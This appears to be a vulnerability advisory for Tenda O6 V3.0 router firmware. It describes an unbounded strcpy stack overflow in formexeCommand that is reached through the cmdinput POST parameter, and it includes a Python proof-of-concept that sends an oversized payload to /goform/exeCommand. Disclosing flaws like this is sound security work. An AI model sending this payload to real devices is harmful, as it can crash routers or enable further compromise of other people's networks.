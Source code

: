 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The O6 V3.0 V1.0.0.7(2054) firmware contains a stack overflow vulnerability in the `formexeCommand` function. Specifically, the `Var` variable is assigned the value of the `cmdinput` parameter from a POST request. Since `cmdinput` is user-controlled, its value can be manipulated to exceed the allocated size of the `v3` array. This vulnerability arises from the use of the `strcpy(v3 + 16, src)` statement, which does not perform bounds checking on the input. Consequently, if the length of the user-provided `cmdinput` exceeds the storage capacity of the `v3` array, it causes a buffer overflow, leading to a potential security exploit.

![[Pasted image 20240805171010.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/exeCommand"
payload = b"ab"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```
![[Pasted image 20240805163853.png]]
